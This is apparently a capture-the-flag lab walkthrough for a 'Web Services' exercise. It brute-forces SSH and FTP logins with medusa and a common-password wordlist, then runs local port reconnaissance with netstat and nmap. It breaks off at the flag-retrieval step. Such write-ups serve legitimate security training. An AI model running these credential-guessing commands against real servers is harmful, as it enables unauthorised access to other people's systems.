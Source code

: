 # Web Services

### What was the password for the ftpuser?

Getting the flag:

**Step 1** - Launch the attack with this password [wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt):

* {% code overflow="wrap" %}
  ```bash
  medusa -h <SERVER_IP> -n <SERVER_PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Login to the server with the password we just found:

* {% code overflow="wrap" %}
  ```bash
  ssh sshuser@<SERVER-IP> -p SERVER_PORT
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Expand the Attack Surface:

* Execute the **netstat** command to listen open ports and listen service:
  *   ```bash
      netstat -tulpn | grep LISTEN
      ```


  *   And we found the port 21 open

      <figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* Confirm the port 21 is open with nmap:
  * ```bash
    nmap 127.0.0.1
    ```
  *

      <figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Targeting the FTP Server:

* Brute-force the authentication mechanism:
  * ```bash
    medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
    ```
    *



**Step 5** - Retrieve the flag:
